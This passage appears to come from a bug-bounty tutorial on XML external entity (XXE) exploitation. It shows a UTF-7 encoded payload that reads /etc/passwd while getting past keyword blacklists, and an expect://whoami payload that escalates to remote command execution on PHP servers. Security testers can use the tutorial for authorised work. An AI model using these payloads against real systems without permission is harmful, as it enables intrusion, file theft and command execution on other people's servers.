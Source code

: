 and the expansion happens during parsing yet can completely overwhelm server resources.

**TIP! Always adhere to program guidelines when testing for denial of service (DoS) attacks and only when permitted!**

### Exploiting XXE via UTF-7 encoding

You may have noticed this, but in all our XXE payloads we've exclusively only used the UTF-8 encoding. As we've seen before, some filtering rules consist mainly of stripping malicious keywords and syntax symbols.

However, if the parser is configured to accept multiple character encodings, we could essentially send our malicious payload encoded in UTF-7 instead of the UTF-8 character set:

```
<?xml version="1.0" encoding="UTF-7"?>
+ADw-+ACE-DOCTYPE+ACA-data+ACA-+AFs-+AAo-+ACA-+ACA-+ADw-+ACE-ENTITY+ACA-xxe+ACA-SYSTEM+ACA-+ACI-file:///etc/passwd+ACI-+AD4-+AAo-+AF0-+AD4-+AAo-+ADw-data+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-post+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-post+AF8-title+AD4-+ACY-xxe+ADs-+ADw-/post+AF8-title+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-post+AF8-desc+AD4-xyz+ADw-/post+AF8-desc+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-/post+AD4-+AAo-+ADw-/data+AD4-
```

**This approach can help us bypass several input validation restrictions, especially systems that filter based on blacklisted keywords to prevent XXE injection attacks.**

**TIP! Remember to include the XML prolog in your payload and set the encoding to "UTF-7"!**

### Escalating XXE to remote code execution

In some cases, it's possible to go beyond reading system files or reaching internal networks. For example, when the Expect PHP module is enabled, we could essentially use the wrapper to [execute system commands](https://www.intigriti.com/researchers/blog/hacking-tools/7-ways-to-achieve-remote-code-execution-rce):


```json
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY exec SYSTEM "expect://whoami">
]>
<data>
    <post>
        <post_title>whoami: &exec;</post_title>
        <post_desc>...</post_desc>
    </post>
</data>
```

This specific PHP module allows developers to interact with processes through PTY. There are several other wrappers that we can use to escalate our initial XXE vulnerability:

- PHP filter wrapper
    
- PHP archive wrapper (PHAR)
    
- ZIP/JAR wrapper (used to read files in archives)
    